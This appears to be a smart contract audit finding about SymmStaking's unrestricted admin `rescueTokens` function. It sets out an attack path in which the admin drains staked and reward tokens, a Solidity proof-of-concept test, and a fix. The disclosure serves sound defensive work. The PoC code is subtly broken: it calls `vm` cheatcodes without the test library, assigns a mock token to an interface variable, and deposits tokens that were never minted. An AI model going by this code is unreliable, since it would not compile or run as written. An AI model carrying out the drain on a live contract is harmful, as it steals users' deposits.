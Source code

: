 Creamy Tartan Raven

High

# Admin can steal all user funds through unrestricted rescueTokens function

### Summary

The lack of token validation in `rescueTokens` function will cause a complete loss of funds for all stakers as admin can withdraw the staking token and reward tokens without updating the contract's state, effectively stealing user deposits and rewards.

### Root Cause

In [SymmStaking.sol#L447-L450](url), the `rescueTokens` function lacks critical validation:
```solidity
function rescueTokens(address token, uint256 amount, address receiver) external nonReentrant onlyRole(DEFAULT_ADMIN_ROLE) {
    IERC20(token).safeTransfer(receiver, amount);
    emit RescueToken(token, amount, receiver);
}
```
This allows the admin to withdraw any token, including:
1. The staking token (defined at [L119](url))
2. Active reward tokens (tracked in [L127-L131](url))

### Internal Pre-conditions

1. Contract must have user deposits (`totalSupply > 0`)
2. Admin must have `DEFAULT_ADMIN_ROLE` (granted during initialization [L168-L171](url))

### External Pre-conditions

Non-required.

### Attack Path

1. Users deposit tokens through [L274-L284](url), increasing `totalSupply` and their `balanceOf`
2. Admin calls `rescueTokens(stakingToken, totalSupply, adminAddress)`
3. All staked tokens are transferred to admin
4. Users' `balanceOf` remains unchanged but `withdraw()` will fail due to insufficient contract balance
5. Admin can repeat for reward tokens using `rescueTokens(rewardToken, balance, adminAddress)`

### Impact

Catastrophic impact on protocol and users:
1. Complete loss of user deposits:
   - Contract state shows: `balanceOf[user] > 0`
   - Actual token balance: `stakingToken.balanceOf(contract) = 0`
2. Users cannot withdraw their staked tokens [L279-L291](url)
3. Reward distributions fail
4. Contract state becomes permanently inconsistent with actual balances

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import "./SymmStaking.sol";

contract ExploitTest {
    function testAdminDrainsFunds() public {
        // Setup
        address admin = address(1);
        address user = address(2);
        SymmStaking staking = new SymmStaking();
        IERC20 stakingToken = new MockERC20("Staking", "STK");
        
        // Initialize
        staking.initialize(admin, address(stakingToken));
        
        // User deposits 1000 tokens
        vm.startPrank(user);
        stakingToken.approve(address(staking), 1000e18);
        staking.deposit(1000e18, user);
        vm.stopPrank();
        
        // Verify initial state
        assert(staking.balanceOf(user) == 1000e18);
        assert(stakingToken.balanceOf(address(staking)) == 1000e18);
        
        // Admin drains funds
        vm.prank(admin);
        staking.rescueTokens(address(stakingToken), 1000e18, admin);
        
        // Verify exploit
        assert(stakingToken.balanceOf(address(staking)) == 0);
        assert(staking.balanceOf(user) == 1000e18); // State inconsistent
        
        // User cannot withdraw
        vm.expectRevert();
        vm.prank(user);
        staking.withdraw(1000e18, user);
    }
}
```

### Mitigation

Add validation checks to prevent withdrawal of critical tokens:

```solidity:contracts/staking/SymmStaking.sol#L447-L450
function rescueTokens(address token, uint256 amount, address receiver) external nonReentrant onlyRole(DEFAULT_ADMIN_ROLE) {
    if (token == stakingToken) revert("Cannot rescue staking token");
    if (isRewardToken[token]) revert("Cannot rescue reward token");
    if (receiver == address(0)) revert("Invalid receiver");
    
    IERC20(token).safeTransfer(receiver, amount);
    emit RescueToken(token, amount, receiver);
}
```